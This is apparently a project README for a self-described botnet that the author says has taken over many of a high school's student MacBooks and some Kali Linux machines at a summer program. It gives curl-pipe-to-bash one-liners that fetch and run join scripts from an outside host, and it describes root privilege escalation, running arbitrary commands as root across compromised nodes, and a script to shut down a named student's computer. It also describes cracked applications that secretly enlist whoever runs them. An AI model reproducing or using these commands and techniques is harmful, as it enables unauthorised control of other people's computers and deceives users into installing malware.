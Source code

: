 # net
Some code which I use to run a rudimentary botnet which controls roughly 20% of the MacBooks my school provides to students. I've also used this code to take over Kali Linux computers at a summer program and write new join scripts for different  

## Where this code works
* MacBook Airs at George Mason High School or others running Mac OS X 10.11.6 and immediately preceding versions. Some assumptions were made about configuration for Macs since the code was written specifically for GMHS MacBook Airs.
* Debian-based Linux distributions, originally Kali Linux. Should work on other distros, although the user must be logged in as rootto the GUI, which they only usually are on Kali.

I do not endorse the use of this code for malicious purposes.

## How it works
### Listening
The botnet is controlled by a simple Python script which opens a socket on port `2043`. Currently the server simply listens for incoming connections and accepts data on new nodes, which are then stored in `nodes.txt`.

### Joining
For Macs, two scripts are used to join a computer to the network, `join.sh` and `enact.sh`. `join.sh` allows one-run joining: it will download the exploit needed to elevate to a root shell and then run `enact.sh` in that root shell automatically, which will handle joining the botnet. This mitigates the need to manually download the exploit, mark it as executable, run it, bla bla bla. Just run this script and you'll be good.

For Kali or other Debian-based Linux, there's just one script which must be executed as root. Some code to use a Rubber Duck USB as a delivery mechanism can be found [here](https://github.com/ErikBoesen/duck-kali) 

Here are simple one-liners to join the botnet (all the scripts are up on my website for URL simplicity):

Mac:
```sh
curl -L erikboesen.com/join.sh |bash
```
Kali:
```sh
curl -L erikboesen.com/jk.sh |bash
```

### Controlling
Running `run.sh` followed by a string giving the command you'd like to run will cause all nodes in `nodes.txt` (in your working directory) to run that command as root. You can also run `up.sh` to view which/how many nodes are online. `die.sh` will kill open applications, turn off the screen, and initiate shutdown on the computer owned by the student with the provided username. Note: Don't do this.  

### Apps
The `apps` directory contains some cracked versions of various applications which are blocked on GMHS MacBooks. These versions will work on our MacBooks, but they will also join the computer that runs them to the botnet.

## Licensing
This software was created by [Erik Boesen](https://github.com/ErikBoesen) and is available under the [MIT License](LICENSE).
